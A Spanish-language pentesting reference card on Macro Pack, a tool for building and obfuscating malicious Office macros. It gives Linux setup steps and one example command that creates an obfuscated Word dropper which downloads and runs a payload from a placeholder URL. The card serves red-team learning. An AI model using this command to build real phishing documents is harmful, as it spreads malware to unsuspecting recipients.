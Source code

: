 ```yaml
---
Herramienta: 🧩 Macro Pack
Comando: macro_pack
Categoría: Ofuscación
SO: Multiplataforma
tags:
  - ofuscacion
  - macros
  - pentesting
  - herramienta
---
```


## Descripción

**Macro Pack** es una herramienta diseñada para generar, modificar y ofuscar macros maliciosas en documentos de Office. Es ampliamente utilizada en pruebas de penetración y ejercicios de red team para evaluar la efectividad de las soluciones de seguridad frente a documentos ofuscados.

### Características clave

- **Generación automática**: Crea macros maliciosas desde plantillas predefinidas.
- **Ofuscación avanzada**: Oculta el contenido del código VBA para evitar detección.
- **Compatibilidad**: Funciona con múltiples formatos de Office, incluyendo Word y Excel.
- **Payloads personalizados**: Permite integrar scripts y código en macros.
- **Uso ético**: Ideal para simular ataques de phishing y evaluar defensas.

---

## Ejemplo de uso

### Consejos para instalación en linux

```bash
 #Descargar de git la herramienta
git clone https://github.com/sevagas/macro_pack.git

#Descargar prerequisitos, si os da error alguno comentarlo en requirements.txt
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
deactivate

#Vamos a añadir unos alias para poder ejecutar la herramienta también en linux
nano ~/.bashrc
#Añadir estas lineas al final
#Alias custom
alias macro-activate="cd /home/alejandro/herramientas/macro_pack/ && source venv/bin/activate"
alias macro-pack="python3 /home/alejandro/herramientas/macro_pack/src/macro_pack.py"

#Cargar la nueva configuración
source ~/.bashrc

#Poner en practica los comandos
macro-activate
macro-pack
deactivate

```

### Paso 1: Crear un documento con macros
Generar un documento Word con una macro ofuscada que descargue y ejecute un payload:
```bash
macro_pack.exe -t DROPPER -o -G -f documento.docm -u http://example.com/payload.exe
```